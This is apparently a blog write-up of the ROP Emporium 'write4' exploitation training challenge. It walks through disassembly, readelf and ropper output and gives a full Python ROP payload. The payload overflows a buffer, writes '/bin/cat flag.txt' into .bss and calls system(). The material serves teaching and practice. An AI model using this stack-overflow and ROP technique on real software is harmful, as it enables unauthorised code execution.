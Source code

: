 ```yaml
---
title: 04_write4
categories: [series, rop_emporium]
---
```


# ROP Emporium write4

* **Tools:** IDA Free 7.0, gdb-gef, ropper, readelf
* **Prerequistes:** Stack frame
* **Download solution:** [main.py](/assets/series/rop_emporium/main.py)

## Overview

> "In this challenge [...] we'll be looking for gadgets that let us write a value to memory such as mov [reg], reg."

The author states there are 3 very different ways to solve the challenge, but I'll stick with the original goal of using a `mov [reg], reg` gadget.

## Function pwnme()

Still the same, except `_fgets()` accepts an input bigger than ever:
```
0x00000000004007EC    mov     rdx, cs:stdin@@GLIBC_2_2_5 ; stream
0x00000000004007F3    lea     rax, [rbp+s]
0x00000000004007F7    mov     esi, 512        ; n
0x00000000004007FC    mov     rdi, rax        ; s
0x00000000004007FF    call    _fgets
```

## Function usefulFunction():

This function calls `_system()`, and `edi` points to the string `"/bin/ls"`:
```
0x0000000000400807    push    rbp
0x0000000000400808    mov     rbp, rsp
0x000000000040080B    mov     edi, offset command ; "/bin/ls"
0x0000000000400810    call    _system
```
In the [split](/posts/ropemporium-split) challenge, the string `"/bin/cat flag.txt"` was present in the binary. Here it has been removed, so we'll have to write it somewhere.

## Searching a writeable area

Let's search writeable sections with **readelf**:
```bash
readelf --sections ../challs/write4
There are 31 section headers, starting at offset 0x1bf0:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
[...]
  [26] .bss              NOBITS           0000000000601060  00001060
       0000000000000030  0000000000000000  WA       0     0     32
[...]
```
Several sections have the **W** flag. I have chosen `.bss` as it is big enough to store the string `"/bin/cat flag.txt"`.

## Searching gadgets:

We find 2 memory writes:
```bash
ropper --search "mov [" -f ../challs/write4
[...]
0x0000000000400821: mov dword ptr [rsi], edi; ret; 
0x0000000000400820: mov qword ptr [r14], r15; ret; 
```
In order to use the first gadget, we have to control the values of `rsi` and `edi`:
```bash
ropper --search "??? ?di" -f ../challs/write4
[...]
0x0000000000400893: pop rdi; ret;
``` 
and:
```bash
ropper --search "??? ?si" -f ../challs/write4
[...]
0x0000000000400891: pop rsi; pop r15; ret;
```
Seems cool. In addition, controlling `edi` is necessary to call `_system()` properly.

In order to use the second memory write gadget, we have to control `r14` and `r15`:
```bash
ropper --search "??? r14" -f ../challs/write4
[...]
0x0000000000400890: pop r14; pop r15; ret;
```
and:
```bash
ropper --search "??? r15" -f ../challs/write4
[...]
0x0000000000400892: pop r15; ret;
```
To summarize: we can write what we want with the `pop reg` gadgets, and we can write where we want with the `mov [reg], reg` gadgets (as long as the destination is writeable).
On a side note, it is funny to see how many gadgets can be found just because `rip` can points to non-aligned addresses. however, we'll go for the `r14`/`r15` gadgets.

## Building the chain

```python
payload = b''
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # fill buffer
payload += b'\x42\x42\x42\x42\x42\x42\x42\x42' # fill buffer (overwrite RSP)

payload += b'\x90\x08\x40\x00\x00\x00\x00\x00' # pop r14, pop r15, ret
payload += b'\x60\x10\x60\x00\x00\x00\x00\x00' # r14 -> .bss
payload += b'\x2f\x62\x69\x6e\x2f\x63\x61\x74' # r15 = "/bin/cat"
payload += b'\x20\x08\x40\x00\x00\x00\x00\x00' # mov [r14], r15

payload += b'\x90\x08\x40\x00\x00\x00\x00\x00' # pop r14, pop r15, ret
payload += b'\x68\x10\x60\x00\x00\x00\x00\x00' # r14 -> .bss+8
payload += b'\x20\x66\x6c\x61\x67\x2e\x74\x78' # r15 = " flag.tx"
payload += b'\x20\x08\x40\x00\x00\x00\x00\x00' # mov [r14], r15

payload += b'\x90\x08\x40\x00\x00\x00\x00\x00' # pop r14, pop r15, ret
payload += b'\x70\x10\x60\x00\x00\x00\x00\x00' # r14 -> .bss+0x10
payload += b'\x74\x00\x00\x00\x00\x00\x00\x00' # r15 = "t\x00"
payload += b'\x20\x08\x40\x00\x00\x00\x00\x00' # mov [r14], r15

payload += b'\x93\x08\x40\x00\x00\x00\x00\x00' # pop rdi, ret
payload += b'\x60\x10\x60\x00\x00\x00\x00\x00' # rdi->"/bin/cat flag.txt"
payload += b'\x10\x08\x40\x00\x00\x00\x00\x00' # call _system()
payload += b'\x43\x43\x43\x43\x43\x43\x43\x43' # dummy (stack alignment)
payload += b'\x79\x06\x40\x00\x00\x00\x00\x00' # hlt
```
---
EOF
